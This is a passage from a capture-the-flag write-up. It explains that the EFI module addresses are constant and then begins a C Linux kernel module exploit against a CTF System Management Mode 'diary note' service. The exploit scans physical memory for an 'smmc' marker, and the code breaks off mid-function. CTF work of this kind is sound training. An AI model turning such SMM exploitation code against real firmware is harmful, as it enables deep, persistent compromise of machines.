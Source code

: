 The addresses of EFI module code and stack are constant so we didn't require any leaks and could just hardcode the addresses.

### Exploit
```c
#include <linux/init.h>
#include <linux/module.h>
#include <linux/kernel.h>
#include <linux/acpi.h>
#include <linux/efi.h>

MODULE_LICENSE("GPL");
MODULE_AUTHOR("HaxHax");
MODULE_DESCRIPTION("A simple Linux module.");
MODULE_VERSION("0.01");

#define EFI_CORCTF_SMM_PROTOCOL_GUID \
    { 0xb888a84d, 0x3888, 0x480e, { 0x95, 0x83, 0x81, 0x37, 0x25, 0xfd, 0x39, 0x8b } }

#define ADD_NOTE 0x1337
#define GET_NOTE 0x1338
#define DUMP_NOTES 0x31337

#define SMBASE 0x7FFAF000

typedef struct
{
    uint8_t note[16];
}diary_note;

typedef struct
{
    uint32_t cmd;
    uint32_t idx;
    union transfer_data
    {
        diary_note note;
        uint8_t *dest;
    } data;
}comm_data_t;

#define CHUNK_SIZE (4096)

u64 _find_smmc(u64 start, u64 end) {
    printk(KERN_INFO "_find_smmc, start: %llx, end: %llx \n", start, end);
    u64 addr = start;
    void *vaddr;
    //char target[] = "smmc";
    u32 target = cpu_to_le32(*(u32*)"smmc");
    unsigned long size = end - start;
    void *mapped_start;

    mapped_start = ioremap(start, size);
    if (!mapped_start) {
        printk(KERN_ERR "ioremap failed for address range %llx to %llx\n", start, end);
        return 0;
    }

    while (addr < end) {
        vaddr = mapped_start + (addr - start);
        if (*(u32*)vaddr == target) {  // compare 4-byte chunks as u32
            iounmap(mapped_start);
            return addr;
```